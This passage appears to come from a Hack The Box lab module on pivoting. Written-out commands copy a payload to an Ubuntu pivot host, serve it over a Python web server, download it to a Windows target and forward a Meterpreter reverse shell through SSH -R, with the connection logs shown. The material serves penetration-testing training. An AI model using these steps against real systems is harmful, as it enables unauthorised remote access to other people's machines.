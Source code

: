    matmarqx@htb[/htb]$ scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
    
    backupscript.exe                                   100% 7168    65.4KB/s   00:00 
    

After copying the payload, we will start a `python3 HTTP server` using the below command on the Ubuntu server in the same directory where we copied our payload.

#### Starting Python3 Webserver on Pivot Host

    ubuntu@Webserver$ python3 -m http.server 8123
    

#### Downloading Payload on the Windows Target

We can download this `backupscript.exe` on the Windows host via a web browser or the PowerShell cmdlet `Invoke-WebRequest`.

    PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
    

Once we have our payload downloaded on the Windows host, we will use `SSH remote port forwarding` to forward connections from the Ubuntu server's port 8080 to our msfconsole's listener service on port 8000. We will use `-vN` argument in our SSH command to make it verbose and ask it not to prompt the login shell. The `-R` command asks the Ubuntu server to listen on `<targetIPaddress>:8080` and forward all incoming connections on port `8080` to our msfconsole listener on `0.0.0.0:8000` of our `attack host`.

#### Using SSH -R

    matmarqx@htb[/htb]$ ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
    

After creating the SSH remote port forward, we can execute the payload from the Windows target. If the payload is executed as intended and attempts to connect back to our listener, we can see the logs from the pivot on the pivot host.

#### Viewing the Logs from the Pivot

    ebug1: client_request_forwarded_tcpip: listen 172.16.5.129 port 8080, originator 172.16.5.19 port 61355
    debug1: connect_next: host 0.0.0.0 ([0.0.0.0]:8000) in progress, fd=5
    debug1: channel 1: new [172.16.5.19]
    debug1: confirm forwarded-tcpip
    debug1: channel 0: free: 172.16.5.19, nchannels 2
    debug1: channel 1: connected to 0.0.0.0 port 8000
    debug1: channel 1: free: 172.16.5.19, nchannels 1
    debug1: client_input_channel_open: ctype forwarded-tcpip rchan 2 win 2097152 max 32768
    debug1: client_request_forwarded_tcpip: listen 172.16.5.129 port 8080, originator 172.16.5.19 port 61356
    debug1: connect_next: host 0.0.0.0 ([0.0.0.0]:8000) in progress, fd=4
    debug1: channel 0: new [172.16.5.19]
    debug1: confirm forwarded-tcpip
    debug1: channel 0: connected to 0.0.0.0 port 8000
    

If all is set up properly, we will receive a Meterpreter shell pivoted via the Ubuntu server.
